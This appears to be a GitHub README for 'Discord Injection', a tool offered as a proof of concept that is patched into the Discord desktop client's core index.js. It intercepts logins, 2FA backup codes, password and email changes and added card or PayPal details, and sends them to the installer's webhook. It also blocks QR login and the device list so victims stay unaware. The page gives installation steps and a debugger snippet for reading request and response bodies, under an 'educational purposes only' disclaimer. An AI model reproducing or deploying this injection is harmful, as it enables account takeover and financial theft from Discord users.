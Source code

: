 <h1 align="center">
  Discord Injection
</h1>

<p align="center">
   Discord HTTP requests interception POC, including backup codes request and many others !
</p>

## Features
- Intercept login, register and 2FA login requests
- Intercept backup codes requests
- Intercept email/password changes requests
- Intercept credit card/paypal adding
- Logout user after initial injection
- Block usage of QR Code to login
- Block request to see devices

## Installation
- Completely close Discord
- Copy the [injection code](https://raw.githubusercontent.com/rkrealizt/discord-injection/main/injection.js) inside your Discord desktop core:

`%APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js`

- Replace `%WEBHOOK%` by your Discord webhook. The informations intercepted will be sent this way.
- Restart Discord

## Preview
### Backup codes sniffing
![image](./assets/codes.png)
### Devices blocking
![image](./assets/devices.png)

## How does backup codes sniffing work ?
I use the [debugger](https://www.electronjs.org/docs/latest/api/debugger) instead of the [WebRequests instance methods](https://www.electronjs.org/docs/latest/api/web-request#instance-methods). It allow me to get request body AND response body:

```js
mainWindow.webContents.debugger.on('message', async (_, method, params) => {
    if (method !== 'Network.responseReceived') return;
    if (![200, 202].includes(params.response.status)) return;

    const responseUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getResponseBody', {
        requestId: params.requestId
    });
    const responseData = JSON.parse(responseUnparsedData.body);

    const requestUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getRequestPostData', {
        requestId: params.requestId
    });
    const requestData = JSON.parse(requestUnparsedData.postData);
})
```
The backup codes are in the response body of `/mfa/codes-verification` request

## Contributing
If you wish to contribute to this project, kindly open an issue or submit a pull request with your proposed changes. We warmly welcome contributions from the community.

## License
This project is licensed under the MIT License. For more information, please consult the LICENSE file.

## Disclaimer:

### Important Notice:
This injection is inteded for educational purposes only. This is provided strictly for educational and research purposes. Under no circumstances this should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.

### Usage Responsibility:

By accessing and using this injection, you acknowledge that you are solely responsible for your actions. Any misuse of this injection is strictly prohibited, and the creator (rkrealizt) disclaims any responsibility for how this injection is utilized. You are fully accountable for ensuring that your usage complies with all applicable laws and regulations in your jurisdiction.

### No Liability:

The creator (rkrealizt) of this injection shall not be held responsible for any damages or legal consequences resulting from the use or misuse of this software. This includes, but is not limited to, direct, indirect, incidental, consequential, or punitive damages arising out of your access, use, or inability to use this injection.

### Acceptance of Terms:

By using this injection, you signify your acceptance of this disclaimer. If you do not agree with the terms stated in this disclaimer, do not use this injection.

